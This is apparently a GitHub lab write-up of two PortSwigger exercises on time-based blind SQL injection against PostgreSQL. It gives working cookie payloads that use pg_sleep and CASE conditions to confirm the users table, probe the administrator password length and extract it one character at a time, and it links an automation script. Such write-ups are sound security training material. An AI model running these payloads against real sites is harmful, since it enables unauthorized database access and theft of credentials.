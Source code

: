 # Blind SQL injection-Time Based
## Summary
- [Lab13: Blind SQL injection with time delays](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/Blind%20SQL%20injection/Blind%20SQLi%20-%20Time%20Based/Blind%20SQL%20injection-Time%20Based.md#lab13-blind-sql-injection-with-time-delays)
- [Lab14: Blind SQL injection with time delays and information retrieval](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/Blind%20SQL%20injection/Blind%20SQLi%20-%20Time%20Based/Blind%20SQL%20injection-Time%20Based.md#lab14-blind-sql-injection-with-time-delays-and-information-retrieval)

### Lab13: Blind SQL injection with time delays
- We will resort to the time delay in the server response if our techniques in conditional responses have failed.
- So we will make an injected query to cause a time delay in the response of the server and monitor the time taken for the server to respond.
- If you tried all the syntax of the databases to trigger the time delay, The `pg_sleep()` function of the `PostgreSQL` will succeed. 
- We will trigger a time delay of 10 seconds.
```
TrackingId=xyz'|| pg_sleep(10)--
TrackingId=xyz'||(select pg_sleep(10))--
```
**- Here, we notice the server has taken more time to respond.**

![lab13_delay.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab13_delay.png)

----------------------------------------------------------------------

### Lab14: Blind SQL injection with time delays and information retrieval
- In the first, we will try to trigger a time delay in the server response.
- We will try to detect the type of database by trying all syntaxes of the databases.
- Check out the` conditional time delays` from the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

```
TrackingId=xyz'||(select pg_sleep(10))--
```
- After trying and testing, you will know It's a `PostgreSQL` database.
- In the previous labs we used the conditional response and the conditional errors, but now we will use the conditional time delays, also using the `CASE` statement or the `WHERE` clause.
- If our condition will be `True`, evaluate the action of delay, otherwise don't evaluate it.
- We will confirm if the `users` table exists or not.
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
TrackingId=xyz'||(select pg_sleep(10) from users)--
```
- These are forms to verify that the `administrator` exists in the `users` table.
- You can try any of these payloads.

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--

TrackingId=xyz'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--

TrackingId=xyz'||(SELECT pg_sleep(10) FROM users WHERE username='administrator')--
```
- Now we need to know the password length of the administrator.
- You can use the intruder to brute force for the length and monitor the time of responses received.
```
TrackingId=xyz'||(SELECT CASE WHEN (LENGTH(password)=20 AND username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--

TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)=20 THEN pg_sleep(10) ELSE pg_sleep(0) END from users where username='administrator')--

TrackingId=xyz'||(SELECT pg_sleep(10) FROM users WHERE username='administrator' AND LENGTH(password)=20)--
```
- Here, you will notice there is an over-in-time response of `10180 millis`, the delay has been succeeded with a payload of 20, so we have known that the password length is 20 char.

![lab14_password_length.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab14_password_length.png)

- The last phase, we will extract the admin password by retrieving that data as numbers, so we will use two important functions to do that:
	- `ASCII`, which returns the [ASCII](https://upload.wikimedia.org/wikipedia/commons/d/dd/ASCII-Table.svg) code for the input character.
	- `SUBSTRING` (or SUBSTR in Oracle), which returns a substring of its input.
- Check out how these functions work:
	- [SUBSTRING()](https://www.w3schools.com/sql/func_mysql_substring.asp)
	- [ASCII()](https://www.w3schools.com/sql/func_mysql_ascii.asp)

```
TrackingId=xyz'||(SELECT pg_sleep(10) FROM users WHERE username='administrator' AND ASCII(SUBSTRING(password,1,1))=111)--

TrackingId=xyz'||(SELECT CASE WHEN ASCII(SUBSTRING(password,1,1))=111 THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```
- But we need to try the ASCII numbers for each char so we will brute-forcing for 20 chars.
- You will do the attack for these 2 positions: 
>ASCII(SUBSTR(password,`$1-20$`,1))=`$ASCII_numbers$`
- You can do that by using an intruder in the burp suite but it will take a long time to finish.
- We can write a python script to extract the password automatically.
- You can see my script from here:[SQLi_lab14_admin_password.py](https://github.com/Sec0gh/python-scripts/blob/main/Blind%20SQLi%20scripts/SQLi_lab14_admin_password.py)
- To run the script:
```
$ python3 SQLi_lab14_admin_password.py "Target_URl"
```
- Finally, we got the admin password.

![lab14_admin_password.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab14_admin_password.png)
